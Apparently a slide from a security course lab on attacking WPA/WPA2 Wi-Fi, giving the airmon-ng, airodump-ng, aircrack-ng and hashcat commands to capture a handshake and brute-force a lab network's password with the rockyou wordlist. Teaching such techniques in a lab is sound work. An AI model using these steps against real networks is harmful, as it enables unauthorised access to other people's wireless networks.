

# Lab: Attacking WPA/WPA2
Your task: Crack the password of the wrt4g1 network

WPA doesn’t  have any known major vulnerabilities. However, passwords can be bruteforced
airmon-ng start wlan0
airodump-ng wlan0mon
Choose your target and save it’s information (ESSID, Channel, MAC address)
airodump-ng -c (channel) -w wpa_wrt4g1 --bssid (bssid) (interface)

Separate terminal: Run hashcat to bruteforce the key
Convert the PCAP into hashcat’s format: aircrack-ng wpa_wrt4g1-01.cap -j wpa
Choose a wordlist
E.g., zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
Run hashcat:  hashcat --force -m 2500 wpa.hccapx rockyou.txt --show